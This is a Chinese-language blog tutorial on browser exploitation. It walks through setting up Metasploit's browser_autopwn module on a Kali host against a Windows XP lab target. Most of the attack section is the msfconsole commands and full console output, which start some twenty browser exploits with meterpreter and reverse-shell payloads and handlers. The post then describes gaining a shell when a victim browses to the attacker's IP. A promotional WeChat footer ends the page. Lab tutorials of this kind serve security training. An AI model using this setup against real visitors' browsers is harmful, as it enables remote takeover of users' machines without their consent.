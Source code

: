 ```yaml
---
layout: post
category: curleyg-code-hack
title: 浏览器渗透
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 浏览器渗透
lock: need
---
```


# 浏览器渗透

攻击机： Kali 192.168.175.128

靶机： WinXP 192.168.175.130

## Browser autopwn攻击 

Metasploit中提供了一个browser autopwn模块，这是一个可以用来对各种浏览器进行测试和渗透的自动化向量。

autopwn指的是自动对目标进行渗透。autopwn模块在配置了所有要使用的浏览器渗透脚本后，将处于监听模式下。然后，它便等待着一个即将到来的连接。一旦连接建立，它就会发送一系列与目标浏览器相匹配的渗透模块，具体发送哪个模块要取决于受害者浏览器的类型。无论目标系统上运行着什么浏览器，只要存在漏洞，autopwn模块就能自动发起攻击。

Browser autopwn原理图：

![img](https://img-blog.csdnimg.cn/20190124193431777.png)

## 使用Metasploit的Browser autopwn模块进行浏览器攻击

这里，我们先打开msf终端

```bash
msfconsole
```

然后在msf终端依次输入如下命令：

```bash
use auxiliary/server/browser_autopwn
show options
set LHOST 192.168.175.128
set URIPATH /
set SRVPORT 80
exploit
```

其中，我们需要制定LHOST、URIPATH、SRVPORT参数。SRVPORT参数制定了渗透服务器使用的端口。这个端口建议为80或者443。URIPATH是存储各种渗透模块的目录路径，它的值被指定为/，表示根目录。设定好这些参数之后，就可以输入命令exploit进行攻击了。

具体如下：

```bash
msf5 > use auxiliary/server/browser_autopwn
msf5 auxiliary(server/browser_autopwn) > show options

Module options (auxiliary/server/browser_autopwn):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   LHOST                     yes       The IP address to use for reverse-connect payloads
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  Start a bunch of modules and direct clients to appropriate exploits


msf5 auxiliary(server/browser_autopwn) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 auxiliary(server/browser_autopwn) > set URIPATH /
URIPATH => /
msf5 auxiliary(server/browser_autopwn) > set SRVPORT 80
SRVPORT => 80
msf5 auxiliary(server/browser_autopwn) > exploit
[*] Auxiliary module running as background job 0.

[*] Setup
msf5 auxiliary(server/browser_autopwn) > 
[*] Starting exploit modules on host 192.168.175.128...
[*] ---

[*] Starting exploit android/browser/webview_addjavascriptinterface with payload android/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/Kwhc
[*] Local IP: http://192.168.175.128:80/Kwhc
[*] Server started.
[*] Starting exploit multi/browser/firefox_proto_crmfrequest with payload generic/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:80/vzkqpBnTX
[*] Local IP: http://192.168.175.128:80/vzkqpBnTX
[*] Server started.
[*] Starting exploit multi/browser/firefox_tostring_console_injection with payload generic/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:80/JLQaHqdG
[*] Local IP: http://192.168.175.128:80/JLQaHqdG
[*] Server started.
[*] Starting exploit multi/browser/firefox_webidl_injection with payload generic/shell_reverse_tcp
[*] Starting exploit multi/browser/java_atomicreferencearray with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/NObgkNaafM
[*] Local IP: http://192.168.175.128:80/NObgkNaafM
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_jmxbean with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/oAXSrii
[*] Local IP: http://192.168.175.128:80/oAXSrii
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_provider_skeleton with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/rgkOUbVZ
[*] Local IP: http://192.168.175.128:80/rgkOUbVZ
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_reflection_types with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/zOAZWwwA
[*] Local IP: http://192.168.175.128:80/zOAZWwwA
[*] Server started.
[*] Starting exploit multi/browser/java_rhino with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/KMZSsvbLbdEAo
[*] Local IP: http://192.168.175.128:80/KMZSsvbLbdEAo
[*] Server started.
[*] Starting exploit multi/browser/java_verifier_field_access with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/zHZYuGKZAKbZ
[*] Local IP: http://192.168.175.128:80/zHZYuGKZAKbZ
[*] Server started.
[*] Starting exploit multi/browser/opera_configoverwrite with payload generic/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:80/WZzpMp
[*] Local IP: http://192.168.175.128:80/WZzpMp
[*] Server started.
[*] Starting exploit windows/browser/adobe_flash_mp4_cprt with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/lZvfdntlB
[*] Local IP: http://192.168.175.128:80/lZvfdntlB
[*] Server started.
[*] Starting exploit windows/browser/adobe_flash_rtmp with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/pgqDFJQG
[*] Local IP: http://192.168.175.128:80/pgqDFJQG
[*] Server started.
[*] Starting exploit windows/browser/ie_cgenericelement_uaf with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/MERLTwZVxeoDI
[*] Local IP: http://192.168.175.128:80/MERLTwZVxeoDI
[*] Server started.
[*] Starting exploit windows/browser/ie_createobject with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/TpOcHC
[*] Local IP: http://192.168.175.128:80/TpOcHC
[*] Server started.
[*] Starting exploit windows/browser/ie_execcommand_uaf with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/XaoAp
[*] Local IP: http://192.168.175.128:80/XaoAp
[*] Server started.
[*] Starting exploit windows/browser/mozilla_nstreerange with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/GAxmRqM
[*] Local IP: http://192.168.175.128:80/GAxmRqM
[*] Server started.
[*] Starting exploit windows/browser/ms13_080_cdisplaypointer with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/dWTagnZBC
[*] Local IP: http://192.168.175.128:80/dWTagnZBC
[*] Server started.
[*] Starting exploit windows/browser/ms13_090_cardspacesigninhelper with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/nfeHDD
[*] Local IP: http://192.168.175.128:80/nfeHDD
[*] Server started.
[*] Starting exploit windows/browser/msxml_get_definition_code_exec with payload windows/meterpreter/reverse_tcp
[*] Starting handler for windows/meterpreter/reverse_tcp on port 3333
[*] Starting handler for generic/shell_reverse_tcp on port 6666
[*] Started reverse TCP handler on 192.168.175.128:3333 
[*] Using URL: http://0.0.0.0:80/NiTvaxR
[*] Local IP: http://192.168.175.128:80/NiTvaxR
[*] Server started.
[*] Using URL: http://0.0.0.0:80/dIoa
[*] Local IP: http://192.168.175.128:80/dIoa
[*] Server started.
[*] Starting handler for java/meterpreter/reverse_tcp on port 7777
[*] Started reverse TCP handler on 192.168.175.128:6666 
[*] Started reverse TCP handler on 192.168.175.128:7777 

[*] --- Done, found 20 exploit modules

[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.175.128:80/
[*] Server started.
```

现在任何一个连接到攻击机80端口的目标都会遭到一个基于它所使用的浏览器的渗透攻击。当有受害者访问我们的IP地址时，browser autopwn模块就会向其发送各种漏洞模块，直到获得Meterpreter控制权限为止。

此时，我们在靶机WinXP上打开IE 6访问连接http://192.168.175.128，

这样，我们就可以拿到靶机的Shell了

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
